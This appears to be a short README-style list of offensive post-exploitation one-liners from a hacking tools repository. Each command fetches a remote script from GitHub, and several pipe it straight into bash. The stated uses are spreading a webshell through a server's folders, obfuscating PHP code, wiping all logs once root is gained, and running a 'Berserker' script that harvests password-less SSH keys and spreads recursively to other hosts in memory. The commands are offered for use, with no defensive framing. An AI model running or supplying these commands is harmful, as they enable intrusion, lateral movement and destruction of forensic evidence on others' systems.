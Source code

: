 netstat if there is no netstat/ss/lsof:
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/awk_netstat.sh | bash
```
Show all domains hosted on a server + system-information :
```sh
curl -fsSL https://raw.githubusercontent.com/haxor-research/tools/master/what_server.sh | bash
```
Spreading your webshell to the deepest destination folder 
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/dor
```
Encrypt ur PHP Code
```php
php ob.php
```
Clear all logs if gain root
```sh
wget https://raw.githubusercontent.com/haxor-research/tools/master/clear.sh
```
The Berserker looks for password-less ssh-keys (such as ~/.ssh/id_rsa) and then attempts to log in to as many hosts as possible. It repeats its action recursively. All this without writing or installing any data on any host. It’s an in-memory infiltration only.
```sh
export BS="$(curl -fsSL https://raw.githubusercontent.com/oxygencall/tools/master/bs)" && bash -c "BS_DEPTH=1 $BS"
